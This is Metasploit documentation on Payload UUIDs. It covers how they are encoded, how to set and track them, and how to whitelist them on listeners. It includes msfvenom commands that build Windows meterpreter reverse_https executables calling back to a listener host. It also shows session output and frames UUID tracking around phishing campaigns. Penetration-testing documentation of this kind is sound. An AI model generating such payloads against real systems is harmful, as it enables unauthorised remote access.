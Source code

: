 ```yaml
---
layout: "default"
title: "Payload UUID"
parent: "Using Metasploit"
---
```



In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

### Specifying the UUID

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```

### Tracking the UUID

Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe

$ cat ~/.msf4/payloads.json
{
  "68017d72958c40f6": {
    "arch": "x86",
    "platform": "windows",
    "timestamp": 1435277049,
    "payload": "payload/windows/meterpreter/reverse_https",
    "datastore": {"AutoLoadStdapi":true,"AutoRunScript":"","AutoSystemInfo":true,"AutoVerifySession":true,"AutoVerifySessionTimeout":30,"EXITFUNC":"process","EnableStageEncoding":false,"EnableUnicodeEncoding":false,"HttpUnknownRequestResponse":"\u003Chtml\u003E\u003Cbody\u003E\u003Ch1\u003EIt works!\u003C/h1\u003E\u003C/body\u003E\u003C/html\u003E","IgnoreUnknownPayloads":false,"InitialAutoRunScript":"","LHOST":"127.1.1.1","LPORT":4444,"MeterpreterServerName":"Apache","MeterpreterUserAgent":"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)","OverrideRequestHost":false,"PAYLOADUUIDNAME":"EmailCampaign20150101","PayloadProxyPort":0,"PayloadProxyType":"HTTP","PayloadUUIDTracking":true,"PrependMigrate":false,"ReverseListenerBindPort":0,"SessionCommunicationTimeout":300,"SessionExpirationTimeout":604800,"SessionRetryTotal":3600,"SessionRetryWait":10,"StageEncoderSaveRegisters":"","StageEncodingFallback":true,"StagerRetryCount":10,"StagerURILength":0,"StagerVerifySSLCert":false,"VERBOSE":false},
    "name": "EmailCampaign20150101",
    "urls": [
  "/aAF9cpWMQPb-3f_cq1FoJA040uMw26kAnvroJdztpVzDrNpqbpT7t3DyYy0cR2TyQE87XxHgIOKiYwP2FJNlNjrBXWQNiGWtzUK1ueJ0DyFjCXmULVo_gGrvi"
]
}
}
```

Once this payload is launched, the output of the ```sessions -l -v``` command will show the UUID, whether or not the UUID is registered, and any locally-assigned name of the UUID:
```
msf exploit(handler) > run -j
[*] 127.0.0.1:36235 (UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z) Staging Native payload ...
[*] Meterpreter session 1 opened (127.1.1.1:4444 -> 127.0.0.1:36235) at 2015-06-25 17:12:40 -0700

msf exploit(handler) > sessions  -l -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: fang\hdm @ fang
      Tunnel: 127.1.1.1:4444 -> 127.0.0.1:36235 (127.0.0.1)
         Via: exploit/multi/handler
        UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z
   MachineID: 1fd541d2c4278e2d0c1b02f17f142f2b
     CheckIn: 1s ago @ 2015-06-25 17:12:47 -0700
  Registered: Yes - Name="EmailCampaign20150101"
  ```

### Whitelisting UUIDs

The ```~/.msf4/payloads.json``` file can also be used as a whitelist. This makes it possible to run a listener on a common port on a public IP address without the Metasploit Framework instance being flooded with bogus sessions. To enable whitelisting, set the ```IgnoreUnknownPayloads``` option to ```true``` in the handler instance. Any incoming request that does match both a registered Payload UUID and one of the pre-generated URLs will be ignored. The ```payloads.json``` file can be copied between Metasploit Framework instances and even hand-edited while the framework is running.

